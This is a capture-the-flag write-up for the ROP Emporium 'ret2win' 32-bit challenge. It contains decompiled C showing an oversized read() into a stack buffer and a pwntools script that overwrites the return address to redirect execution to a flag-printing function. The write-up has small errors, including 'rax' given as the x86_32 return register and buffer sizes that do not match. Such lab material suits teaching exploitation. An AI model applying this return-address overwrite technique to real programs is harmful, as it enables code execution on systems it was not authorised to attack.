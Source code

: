 # Ret2win (x86)

## x86_32 architecture
### Calling convention
#### Arguments
`stack`
#### Results
`rax`
### Frame structure
![framestructure](imgs/frame_x86.png)

Source: [here](https://tanana.io/how-2-haq/)

## Reversing with Ghidra
### Main
```c
int main() {
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### Pwnme
```c
void pwnme() {
  char buf[40];
  
  memset(buf, 0, 0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
  printf("> ");
  read(0, buf, 0x38);
  puts("Thank you!");
  return;
}
```
### ret2win (target)
```c
void ret2win() {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

## The vuln
The `read` function reads `0x38` (`56`) bytes but the buffer is only `40` bytes long, this allows us to overflow the `buf` variable and write on the stack wherever we want (the `return address` in our case).

## The exploit
```py
from pwn import *

#
# Context
#

e = context.binary = ELF('ret2win32')

#
# ROP
#

target = p32(0x0804862c)

#
# Find Offset
#

io = process(e.path)
io.sendlineafter(b'> ', cyclic(0x38))
io.wait()

core = io.corefile
offset = cyclic_find(bytes.fromhex(hex(core.eip)[2:])[::-1])

io.close()

info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += target

io = process(e.path)
io.sendlineafter(b'> ', payload)

info(io.recvall().decode())

io.close()
```